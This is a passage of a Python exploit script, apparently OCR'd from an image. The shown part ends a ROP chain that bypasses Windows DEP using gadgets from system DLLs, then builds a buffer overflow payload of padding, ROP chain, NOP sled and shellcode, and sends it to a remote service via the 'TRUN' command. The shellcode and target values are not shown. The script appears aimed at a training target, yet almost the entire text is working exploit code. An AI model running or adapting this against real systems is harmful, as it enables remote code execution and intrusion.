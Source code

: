 ```python
        0x75285e78,  # &Writable location [MSCTF.dll] ** REBASED ** ASLR                                                                                                                                                                                                                                                   
                                                                                                                                                                                                                                                                                                                           
        #[---INFO:gadgets_to_set_edi:---]                                                                                                                                                                                                                                                                                  
        0x76df7643,  # POP EDI # RETN [ntdll.dll] ** REBASED ** ASLR                                                                                                                                                                                                                                                       
        0x768a1645,  # RETN (ROP NOP) [RPCRT4.dll] ** REBASED ** ASLR                                                                                                                                                                                                                                                      
                                                                                                                                                                                                                                                                                                                           
        #[---INFO:gadgets_to_set_eax:---]                                                                                                                                                                                                                                                                                  
        0x758b9b4c,  # POP EAX # RETN [kernel32.dll] ** REBASED ** ASLR                                                                                                                                                                                                                                                    
        0x90909090,  # nop

        #[---INFO:pushad:---]
        0x758ec2a0,  # PUSHAD # RETN [kernel32.dll] ** REBASED ** ASLR
        ]
        return ''.join(struct.pack('<I', _) for _ in rop_gadgets)



rop_chain = create_rop_chain()


#JMP ESP 0x625011AF: \xAF\x11\x50\x62 (not required anymore)
memn0ps = "\x90"

payload = "A" * 2003
payload += rop_chain
payload += memn0ps * 20
payload += shellcode
payload += memn0ps * 20
payload += "C" * (3000- len(payload))

try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((RHOST, RPORT))
        s.recv(1024)
        print("[+] Sending exploit!")
        s.send("TRUN /.:/" + payload)
        print("[+] Evil buffer sent...")
        s.close()
except:
        print("[-] Could not connect to server!")

```
